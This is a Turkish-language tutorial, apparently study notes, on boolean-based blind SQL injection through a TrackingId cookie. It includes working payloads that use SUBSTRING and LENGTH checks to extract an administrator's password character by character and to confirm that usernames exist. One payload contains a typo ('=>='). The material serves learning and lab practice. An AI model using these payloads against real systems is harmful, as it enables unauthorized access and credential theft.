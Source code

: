## Koşullu Yanıtlarla Veri Çekme

Uygulama, mesela bir `TrackingId` çerezi ile kullanıcıyı tanıyorsa “Welcome back” mesajı döndürüyor, aksi halde bu mesaj gelmiyorsa:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '…';
```

Bu sorguya enjekte edeceğiniz koşullar (`AND '1'='1'` vs. `AND '1'='2'`) gerçeğe göre farklı yanıt ürettirerek, **true/false** sonuçlarını gözlemlemenizi sağlar.

**Örnek: Karakter Karakter Parola Öğrenme**

Diyelim `Users` tablosunda `Administrator` adlı bir kullanıcı var. Parolasının ilk karakterini şöyle test edebilirsiniz:

1. Karakterin `'m'`’den büyük olup olmadığını sorun:
```sql
 AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1) =>= 'm
 -- Sorgunun farklı hali :
 ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```

– Eğer “Welcome back” geliyorsa, karakter `'m'`’den büyüktür.

2. Benzer şekilde üst sınırı daraltarak doğru karakteri bulana dek devam edin:

```sql
 AND SUBSTRING(...,1,1) = 's
```

– “Welcome back” mesajı geldiyse, ilk karakter `'s'`’tir.
Bu şekilde her konumu tek tek test ederek parolanın tamamını elde edebilirsiniz.


1. **Neden `SUBSTRING` Kullanılır?**

```sql
AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 't
```
- `SUBSTRING( metin, başlangıç, uzunluk )`  
    → `metin` içinden **başlangıç** pozisyonundan itibaren **uzunluk** kadar karakter döndürür.
- Örnekte: şifrenin 1. karakterini (uzunluğu 1) alıyoruz.
- “İlk harfi almak” istediğimiz için kullanıldı.

2. Parolanın uzunluğunu test etmek için :
```sql
AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a
```
→ Eğer `administrator` kullanıcısının şifresi 10 karakterden uzunsa, sorgu `'a'='a'` olur ve **true** döner.

3. Kullanıcı adı doğrulamak için : 
```sql
 AND (SELECT 'a' FROM users WHERE username='administrator')='a
```


